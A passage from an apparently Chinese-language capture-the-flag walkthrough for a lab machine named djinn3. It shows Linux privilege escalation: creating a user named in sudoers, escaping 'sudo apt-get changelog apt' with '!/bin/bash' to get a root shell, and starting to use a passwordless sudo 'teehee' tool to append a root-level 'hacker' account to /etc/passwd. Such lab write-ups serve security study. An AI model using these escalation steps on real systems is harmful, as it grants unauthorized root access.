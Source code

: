 但现在只有读权限：

查看 sudoers 文件，查看还有哪些用户可以使用 sudo 执行命令，发现一个 jason 用户，但是这个用户并不存在，但是我们是可以新建用户的，所以需要密码（自己的密码）才能执行这个也就没有问题。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibt9nV4AwU0dmfXnmkAwTxQdMmsquIWyFeclgTQMWGSffcrLaP1Ckk5A/640?wx_fmt=jpeg)

exit 退回到 saint 用户，新建 jason 用户

```
chounana@djinn3:/home/saint$ exit
exit
saint@djinn3:~$ sudo adduser jason
Adding user `jason' ...
Adding new group `jason' (1005) ...
Adding new user `jason' (1005) with group `jason' ...
Creating home directory `/home/jason' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
Changing the user information for jason
Enter the new value, or press ENTER for the default
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
Is the information correct? [Y/n] 
saint@djinn3:~$
```

切换到 jason 用户，使用 apt-get 命令提权，因为用户是自己建立的，所以密码也当然是知道的；

```
sudo apt-get changelog apt
!/bin/bash
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibjmJSooU6AmqcYl7AGiahuWZWXibCImYicYwR5MRgmzuv6yz4t8EAszQ9A/640?wx_fmt=jpeg)

最后一个是彩蛋环节，通过 tee 命令来重写系统文件以达到提权的目的，实战中不管修改的方式如何变化，但所要修改的文件就这 3 个系统文件，修改的内容也大同小异。

tee 提权
------

这里靶机用的是 teehee 命令，可以写入文件内容并不覆盖文件原有内容，功能与 tee 命令类似。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaib7OVPBhhIl7JQG3ziblYLHmCPzaicH2H14CJR0V1MmM9bp81qgl6icdRIw/640?wx_fmt=jpeg)

虽然有密码，但不能直接切到 root，从 sudo 看，明显这个 teehee 可以不要密码以 root 身份运行，提权就靠这个程序了；

### 1、修改 / etc/passwd 用户信息

追加一个名为 hacker 的用户，将它的 uid 和 gid 也设置为 root 的 0：
